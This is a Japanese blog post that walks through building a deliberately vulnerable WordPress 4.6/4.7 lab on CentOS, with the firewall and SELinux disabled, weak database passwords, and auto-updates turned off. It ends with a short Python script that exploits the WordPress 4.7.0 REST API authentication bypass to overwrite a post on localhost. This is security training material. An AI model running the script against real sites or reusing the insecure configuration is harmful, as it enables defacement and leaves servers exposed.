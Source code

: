 ```yaml
---
layout: post
title:  "WordPress Build & Crack"
date:   2018-10-29
permalink: /security/:title
categories: Security
tags: WordPress
excerpt: WordPressの構築とクラッキング
mathjax: false
---
```


* content
{:toc}

# 環境構築

## php
```
# phpのインストール
yum install -y php php-mysql

# phpが動作することを確認
php -r 'print "hello world\n"'
```

## Apache httpd
```
# Apache httpdの起動
systemctl enable httpd
systemctl start httpd

# テストページの設置
cat > /var/www/html/index.php << END
<?php
phpinfo();
?>
END
```

### (option)firewalld/selinux
検証環境を手早く構築するためにセキュリティ機構を停止しています。
本来は適切なアクセス許可を付与するべきです。
```
# ファイアウォールの停止
systemctl stop firewalld

# SELinuxの停止
setenforce 0
```

テストページにアクセスして動作確認します。

![](/images/wordpress/phpinfo.png)

## MySQL(MariaDB)
WordpressのバックエンドDBのMySQLを用意します。
ここで作成するデータベース名、ユーザー名、パスワードは後で参照するので覚えておいてください。
```
# MariaDBのインストールと起動
yum install -y mariadb mariadb-server
systemctl enable mariadb
systemctl start mariadb

# データベースの初期化スクリプトを作成
cat > /tmp/init.sql << END
set password for root@localhost=password('rootpassword');
insert into user set user="wpadmin", password=password("wpadmin"), host="localhost";
create database wpdb;
grant all on wpdb.* to wpadmin;
flush privileges;
END

# データベースの初期化スクリプトを実行
mysql -u root -D mysql < /tmp/init.sql

# 以下の設定が完了したことを確認
# - rootユーザーのパスワードが変更されていること
# - wpdbデータベースが作成されていること
# - wpdbデータベースの権限を持つwpadminユーザーが作成されていること
echo 'select Db, User from db;'| mysql -u root -D mysql -prootpassword

# wpadminユーザーでログインできることを確認
echo 'show tables;'|mysql -u wpadmin -D wpdb -pwpadmin
```

## wordpress
wordpress公式が古いバージョンのWordPressを配布しています。
利用する脆弱性に応じたWordPressを取得してください。
例としてWordPress4.6.0の設置手順を記載します。
```
# wordpressのダウンロードと設置
wget https://ja.wordpress.org/wordpress-4.6-ja.tar.gz -O /tmp/wordpress-4.6-ja.tar.gz
tar -zxvf /tmp/wordpress-4.6-ja.tar.gz -C /var/www/html/
mv /var/www/html/wordpress/ /var/www/html/4.6.0/

# アクセス権限をapache:apacheに変更
chown -R apache: /var/www/html/4.6.0
```
ブラウザからwordpressのパスにアクセスすると初期設定ウィザードが開きます。
いくつかの項目を埋めてwp-config.php（Wordpressの設定ファイル）を作成します。
![](/images/wordpress/setup-config.png)

MySQLに作成したデータベース名、ユーザー名、パスワードを指定します。
ここで指定するユーザーはサイトの管理者ではありません。
![](/images/wordpress/setupconfig2.png)

wp-config.phpが作成されたらこの画面が表示されます。
まだインストール実行をクリックしないでください。
![](/images/wordpress/setupconfig3.png)

今回は脆弱性のある環境を構築するため、あらかじめWordpressの自動更新を無効化します。
```
# Wordpressの自動アップデートを無効化
echo "define('AUTOMATIC_UPDATER_DISABLED', true);" >> /var/www/html/4.6.0/wp-config.php
```

自動更新を無効化したらインストール実行をクリックします。
ここで指定するユーザーがサイトの管理者になります。
パスワードを忘れないようにメモしてください。
![](/images/wordpress/setupconfig4.png)

サイトの情報を設定してWordPressをインストールをクリックすれば構築は完了です。
![](/images/wordpress/installcomplete.png)

Hello world!にアクセスできることを確認します。
![](/images/wordpress/wpindex.png)

### (option)wp_posts
WordPressのコンテンツデータはデータベースに格納されています。
mysqlにアクセスすることで投稿内容を確認できます。
```
# wpdbデータベースにテーブルが増えている事を確認
echo "show tables;" | mysql -u wpadmin -D wpdb -pwpadmin

# postsテーブル（投稿に関する情報）を確認
echo "select * from wp_46posts;" | mysql -u wpadmin -D wpdb -pwpadmin
```
# REST API Vulnerability
WordPress4.7.0からREST APIが実装されました。
APIを介してコンテンツの取得、更新、削除が行えます。
REST APIが有効ならば以下のURLでコンテンツの一覧を取得できます。
```
http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/
```
WordPress4.7.0のREST APIには認証バイパスの脆弱性があります。
例えば以下のコードはWordPress4.7.0のHello World!ページを書き換えます。
```
#!/usr/bin/python
import urllib, urllib2
url = "http://localhost/4.7.0/index.php/wp-json/wp/v2/posts/1/?id=1abc"
payload = {'content': 'Your are hacked!!'}
payload = urllib.urlencode(payload)
request = urllib2.Request(url, payload)
urllib2.urlopen(request)
```
